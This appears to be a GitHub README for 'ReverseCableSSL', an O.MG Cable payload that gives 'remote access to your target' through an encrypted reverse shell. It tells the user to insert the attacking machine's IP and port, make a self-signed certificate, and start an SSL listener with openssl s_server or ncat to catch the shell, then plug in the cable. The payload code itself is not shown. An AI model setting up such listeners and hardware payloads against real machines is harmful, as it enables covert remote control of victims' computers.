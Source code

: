 **Title: ReverseCableSSL**

<p>Author: 0iphor13<br>
Version: 1.0<br>
Requirements: OMG Firmware v.2.5 or higher</p>

**What is RemoteDeskCable?**
#
<p>ReverseCableSSL gets you remote access to your target in seconds.<br>
Unlike ReverseCable, ReverseCableSSL offers encrypted traffic via OpenSSL.</p>


**Instruction:**
<p>!!!Insert the IP of your attacking machine & PORT into the payload!!!<br>
1. Create key.pem & cert.pem like so: openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br>
	> It will ask for information about the certificate - Insert whatever you want.<br>
2. For catching the shell you need to start a listener, which supports encrypted traffic.<br>
I recommend openssl itself or ncat - Example syntax for both:<br>
	> openssl s_server -quiet -key key.pem -cert cert.pem -port [Port Number] <br>
	> ncat --listen -p [Port Number] --ssl --ssl-cert cert.pem --ssl-key key.pem</p>
3. Plug in Cable.